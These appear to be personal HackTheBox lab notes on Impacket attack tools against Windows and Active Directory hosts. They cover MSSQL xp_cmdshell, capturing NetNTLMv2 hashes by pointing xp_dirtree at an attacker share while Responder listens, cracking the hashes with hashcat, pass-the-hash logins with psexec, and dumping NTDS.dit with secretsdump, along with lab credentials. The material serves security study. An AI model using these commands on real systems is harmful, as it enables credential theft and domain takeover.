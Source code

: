 ### mssqlclient.py
```
mssqlclient.py manager/operator:operator@manager.htb -windows-auth
```
- `enable_xp_cmdshell` - elevate to system
- `xp_dirtree` - read files
- `help`- list commands

```
SELECT name FROM master..sysdatabases;
```

```
use <DB NAME>;
```

```
impacket-mssqlclient publicuser:GuestUserCantWrite1@sequel.htb
```
#### Intercept hash of user running MSSQL
##### xp_dirtree fake share
```
xp_dirtree \\10.10.14.8\fake\share
```

On Kali, set up responder 
##### Responder
```
sudo responder -I tun0
```

Execute xp_dirtree command and catch the sql_svc hash
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526212929.png]]
- Crack this NetNTLMv2 hash using hashcat and rockyou.txt (hashcat autodetected the hash mode to use)
### psexec.py
Login with NT Hash
```
psexec.py -hashes <NT HASH>:<NT HASH> administrator@10.10.11.236
```

Login with password
```
impacket-psexec monteverde.htb/administrator:'d0m@in4dminyeah!'@10.10.10.172
```
### secretsdump.py

Dump hashes and secrets, password history, and when password was last set
```
secretsdump.py -user-status -history -pwd-last-set administrator.htb/ethan@10.10.11.42
```
- paste in password

Dump ntds.dit using system boot key
```
secretsdump.py local -system system -ntds ntds.dit 
```
